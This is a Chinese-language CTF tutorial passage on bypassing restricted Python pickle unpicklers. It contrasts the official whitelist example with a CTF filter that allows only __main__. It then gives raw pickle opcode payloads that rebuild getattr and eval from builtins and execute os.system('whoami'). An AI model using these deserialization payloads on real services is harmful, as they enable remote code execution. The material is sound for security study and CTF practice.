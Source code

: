 下面是官方文档中的例子，使用白名单限制了能够调用的模块

```python
safe_builtins = {'range','complex','set','frozenset','slice',}

class RestrictedUnpickler(pickle.Unpickler):

    def find_class(self, module, name):
        # Only allow safe classes from builtins.
        if module == "builtins" and name in safe_builtins:
            return getattr(builtins, name)
        # Forbid everything else.
        raise pickle.UnpicklingError("global '%s.%s' is forbidden" %(module, name))
```

下面例子是高校战疫网络安全分享赛·webtmp中的过滤方法，只允许`__main__`模块。虽然看起来很安全，但是被引入主程序的模块都可以通过`__main__`调用修改，所以造成了变量覆盖。

```python
class RestrictedUnpickler(pickle.Unpickler):
    def find_class(self, module, name):
        if module == '__main__': # 只允许__main__模块
            return getattr(sys.modules['__main__'], name)
        raise pickle.UnpicklingError("global '%s.%s' is forbidden" % (module, name))
```

如何绕过`find_class`函数内的限制就是pickle反序列化解题的关键

黑名单绕过

构造getattr函数

可以使用builtins模块构造getattr函数，不再经过find\_class,就能绕过WAF实现任意函数执行

### 不经过find\_class

绕过在find\_class中的限制

使用`R`操作码

```python
#1、下面字符串中#号后面的字符要删除，不然会报错
a=b'''cbuiltins\ngetattr\np0\ncbuiltins\ndict\np1\nX\x03\x00\x00\x00get\x86Rp2\n0g2\ncbuiltins\nglobals\n)RX\x0C\x00\x00\x00__builtins__\x86Rp3\n0g0\ng3\nX\x04\x00\x00\x00eval\x86Rp4\n0g4\nX\x21\x00\x00\x00__import__('os').system('whoami')\x85R.'''
b=b'''cbuiltins
getattr
p0 
(cbuiltins
dict
S'get'
tRp1
cbuiltins
globals
)Rp2
00g1
(g2
S'__builtins__'
tRp3
0g0
(g3
S'eval'
tR(S'__import__("os").system("whoami")'
tR.
'''

#都等价于下面的代码
getattr = __import__('builtins').getattr
dict = __import__('builtins').dict
get = getattr(dict, 'get')
```